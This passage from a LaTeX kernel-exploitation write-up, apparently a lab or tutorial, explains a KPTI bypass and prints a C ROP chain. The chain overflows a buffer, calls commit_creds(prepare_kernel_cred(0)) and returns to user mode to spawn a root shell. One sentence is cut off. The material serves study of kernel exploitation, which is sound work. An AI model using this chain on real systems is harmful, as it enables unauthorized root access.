     The only step in this ROP that we have not analyzed is bypassing kpti.
    As explained previously, this mitigation was implemented mainly for hardware bugs but also at a software level it adds a step to our ROP chain, in fact we will call the   swapgs\_restore\_regs\_and\_return\_usermode function which allows us to set RIP to the win function which will call execve("/bin/sh") and set the registers to reset the stack.\newline
    Follow the instructions that  
    swapgs\_restore\_regs\_and\_return\_usermode: \newline
    \begin{figure}[htbp]
        \centering
        \includegraphics[width=1\linewidth]{Images/swapgs_restore_regs_and_return_usermode.png}
        \caption{function assembly instructions}
        \label{fig:enter-label}
    \end{figure}
    This is what looks like the ROP chain:
    \begin{verbatim}
      memset(buf, 'A', 0x408);
      unsigned long *chain = (unsigned long*)&buf[0x408];
      *chain++ = rop_pop_rdi;
      *chain++ = 0;
      *chain++ = prepare_kernel_cred;
      *chain++ = rop_pop_rcx;
      *chain++ = 0;
      *chain++ = rop_mov_rdi_rax_rep_movsq;
      *chain++ = commit_creds;
      *chain++ = rop_bypass_kpti;
      *chain++ = 0xdeadbeef; // [rdi]
      *chain++ = 0xdeadbeef;
      *chain++ = (unsigned long)&win; // [rdi+0x10]
      *chain++ = user_cs;             // [rdi+0x18]
      *chain++ = user_rflags;         // [rdi+0x20]
      *chain++ = user_rsp;            // [rdi+0x28]
      *chain++ = user_ss;             // [rdi+0x30]
      puts("[+] Executing ROP ...");

  write(fd, buf, (void*)chain - (void*)buf);
    \end{verbatim}
    
    The last thing left to do is run the full exploit, and see if we get a rooted shell.\newline

